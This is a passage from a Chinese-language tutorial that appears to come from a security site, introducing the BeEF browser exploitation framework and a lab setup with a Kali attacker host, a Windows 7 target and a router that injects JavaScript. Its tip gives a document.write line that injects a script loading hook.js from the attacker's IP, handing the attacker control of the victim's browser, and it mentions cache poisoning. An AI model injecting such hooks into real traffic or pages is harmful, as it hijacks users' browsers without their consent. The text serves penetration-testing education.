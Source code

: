 # 浏览器利用框架BeEF测试

0x00 前言
=======

* * *

BeEF，全称The Browser Exploitation Framework，是一款针对浏览器的渗透测试工具。 目前对其测试的文章不是很多，所以希望通过本次测试给大家带来全新的认识。

![这里写图片描述](http://drops.javaweb.org/uploads/images/68e7f4893eb8c37f9d32414f709e3a2106db1940.jpg)

0x01 简介
=======

* * *

工具主页：[http://beefproject.com](http://beefproject.com/)

工具框架:

![这里写图片描述](http://drops.javaweb.org/uploads/images/06ff4eabfc20602671192c3ccf2dc0831cb2556e.jpg)

0x02 测试环境
=========

* * *

攻击主机:

```
操作系统:Kali 1.0
IP:192.168.16.245

```

测试主机:

```
操作系统:Win7x86
IP:192.168.16.197

```

路由器：

```
WooyunWifi
开启JS注入功能

```

![这里写图片描述](http://drops.javaweb.org/uploads/images/1f0092881dcb1c24b99540d30576d6f8b73e5ae9.jpg)

**_Tips：_**

```
WooyunWifi开启JS注入功能后会对用户访问的页面加入JS代码，如果JS代码设置成如下格式，那么运行后会在BeEF控制端返回一个shell

document.write("<script language='javascript' src='http://192.168.16.245:3000/hook.js'></script>");

默认情况下JS注入附带缓存投毒功能，将视图缓存所有的页面至2099年，但可以通过清除所有缓存及浏览数据来清除缓存投毒的影响。

```

